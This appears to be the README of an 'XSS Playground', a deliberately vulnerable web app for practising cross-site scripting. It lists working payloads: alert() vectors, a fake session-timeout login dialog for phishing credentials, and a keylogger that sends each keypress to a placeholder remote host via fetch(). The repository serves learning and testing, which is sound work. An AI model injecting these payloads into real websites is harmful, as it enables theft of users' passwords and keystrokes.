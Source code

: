 # XSS Playground

A simple vulnerable web application to play around with XSS.

## Setup guide

Simply clone this repository and install the dependencies.

```
npm install
```

## Development

To run the web application in `dev` mode:

```
npm run dev
```

## Payloads

#### General

```html
<script>alert(1);</script>

<body onload='alert(1)'></body>

<img src=404 onerror='alert(1)' />

<iframe SRC='javascript:alert(1)'></iframe>
```

#### Fake login dialog form

```html
<dialog id='xss-dialog'>
	<h3>Your session has timed out. Please login again!</h3>
	<form method="dialog">
		<label for="username">Username:</label>
		<input id="username" name="username" type="text" />
		<br /> <br />
		<label for="password">Password:</label>
		<input id="password" name="password" type="password" />
		<br /> <br />
		<button type="submit">Login</button>
	</form>
</dialog>
<img src=x onerror="document.querySelector('#xss-dialog').showModal()"/>
```

#### Capture victim's keypress

```html
<img src=x onerror="
  document.addEventListener('keyup', (ev) => {
    fetch(`http://<hostname>:<port>/?key=${ev.key}`);
  });
" />
```
